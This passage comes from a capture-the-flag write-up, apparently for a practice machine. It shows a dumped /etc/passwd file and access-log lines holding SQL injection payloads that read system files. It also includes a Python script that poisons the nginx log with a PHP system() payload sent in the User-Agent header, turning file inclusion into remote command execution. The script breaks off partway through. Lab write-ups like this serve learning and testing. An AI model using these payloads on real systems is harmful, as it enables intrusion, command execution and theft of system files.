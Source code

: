 ```
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
guly:x:1000:1000:guly,,,:/home/guly:/bin/bash
mysql:x:107:112:MySQL Server,,,:/nonexistent:/bin/false
```

### Gaining RCE on the system through code PHP injection in the access logs

I have access to the nginx access logs and I can see that the `User-Agent` header is included in the logs:
```
> /var/log/nginx/access.log
10.10.14.23 - - [14/Apr/2019:21:31:24 -0400] "GET /index.php?id=25'%20union%20select%20all%20%22invalid'%20union%20select%20all%20'/etc/issue%22%20--%20- HTTP/1.1" 200 423 "-" "python-requests/2.18.4"
10.10.14.23 - - [14/Apr/2019:21:32:38 -0400] "GET /index.php?id=25'%20union%20select%20all%20%22invalid'%20union%20select%20all%20'/etc/passwd%22%20--%20- HTTP/1.1" 200 925 "-" "python-requests/2.18.4"
10.10.14.23 - - [14/Apr/2019:21:38:00 -0400] "GET /index.php?id=25'%20union%20select%20all%20%22invalid'%20union%20select%20all%20'/home/guly/user.txt%22%20--%20- HTTP/1.1" 200 398 "-" "python-requests/2.18.4"
```

I control the `User-Agent` header so I can potentially inject PHP code in the access logs and trigger it by making a request to the log file using the LFI from the SQL injection. After some trial and error I find that Iwe can inject any PHP code I want in the `User-Agent` header and that the `system` function is not disabled. To make sure I don't end up with too much PHP statements in the access logs and kill the box, I reset the content of the access log file every time I run a command.

Here's the script I made to execute commands. I could have put more regex in there to clean up the output a bit more but that'll do for now.

```python
#!/usr/bin/python

from bs4 import BeautifulSoup
import re
import readline
import requests

import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = { "http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080" }

while True:
    cmd = raw_input("> ")
    headers = { "User-Agent": "<?php system('echo **BEGIN** > /var/log/nginx/access.log; %s'); ?>**END**" % cmd}
    r = requests.get("http://10.10.10.126/", headers=headers)
    file = "/var/log/nginx/access.log"
    payload = "25' union select all \"%s\" -- -" % ("invalid' union select all '" + file)
    r = requests.get("https://www.nestedflanders.htb/index.php?id=%s" % payload, proxies=proxies, verify=False)
    soup = BeautifulSoup(r.text, 'html.parser')
    m = re.search("\*\*BEGIN\*\*(.*)\*\*END\*\*", str(soup.body), flags=re.DOTALL)
    if m:
```